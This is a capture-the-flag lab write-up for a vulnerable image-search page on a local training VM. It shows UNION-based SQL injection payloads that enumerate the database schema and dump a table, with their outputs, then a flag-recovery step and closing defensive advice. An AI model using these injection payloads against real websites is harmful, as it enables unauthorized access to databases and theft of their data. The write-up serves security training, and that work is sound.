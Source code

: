 # Searching Page

__http://192.168.56.101/?page=searchimg&Submit=Submit__

## Description
This is a page for searching over the images. 

## Form Outputs

https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/ - main table information

1) 1 union select table_name, table_schema from iNFORMATION_SCHEMA.TABLES - see all schema names and their tables

2) 1 union select table_name, column_name from iNFORMATION_SCHEMA.columns - see all tables and their columns

3) find column username, password and see what tables in it

we can select for table names as in previous task [select table_name, 0 from information_schema.tables where table_schema=database()](#http://192.168.56.101/?page=searchimg&id=-1%20union%20select%20table_name,%200%20from%20information_schema.tables%20where%20table_schema=database()&Submit=Submit)
```
ID: 1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images
```
we can select for column names as in previous task [select column_name, column_type from information_schema.columns where table_schema=database()](#http://192.168.56.101/?page=searchimg&id=-1%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit)
```
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment
```
we can select sensetive data as in previous task [select title, comment from list_images](#http://192.168.56.101/?page=searchimg&id=-1%20union%20select%20title,%20comment%20from%20list_images&Submit=Submit)
```
ID: 1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: 1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: 1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: 1 union select title, comment from list_images 
Title: Earth!
Url : Earth
ID: 1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

## Flag
The flag we've got in MD5 hash [1928e8083cf461a51303633093573c46](#https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46)
Then we request albatroz name in 256 as in instruction 
```echo -n "albatroz" | shasum -a 256```


## Safety
When it comes to web development safety, there are a few key takeaways from this information: </br>
1. Input Validation: It is crucial to properly validate and sanitize user input, especially when it is used in database queries. The vulnerabilities demonstrated in the examples show how an attacker can manipulate the SQL queries by injecting malicious SQL code, resulting in unauthorized access to sensitive information.
2. Query Security: Use prepared statements or parameterized queries instead of directly concatenating user input into SQL statements. This helps prevent SQL injection attacks by separating the SQL code from user-supplied data.
3. Access Control: Ensure that users have appropriate access rights and privileges to perform actions on the website. Restrict access to sensitive data and functionality, and implement proper authentication and authorization mechanisms.
4. Secure Hashing: When storing passwords or sensitive information, use strong hashing algorithms like SHA-256. MD5 is considered weak and should not be used for security purposes.
5. Error Handling: Implement proper error handling mechanisms to avoid exposing sensitive information to the user in error messages or logs. Provide generic error messages to users and log detailed error information securely for internal debugging.
6. Secure Coding Practices: Follow secure coding practices, such as input validation, output encoding, and session management, to prevent common vulnerabilities like cross-site scripting (XSS) attacks and cross-site request forgery (CSRF) attacks.
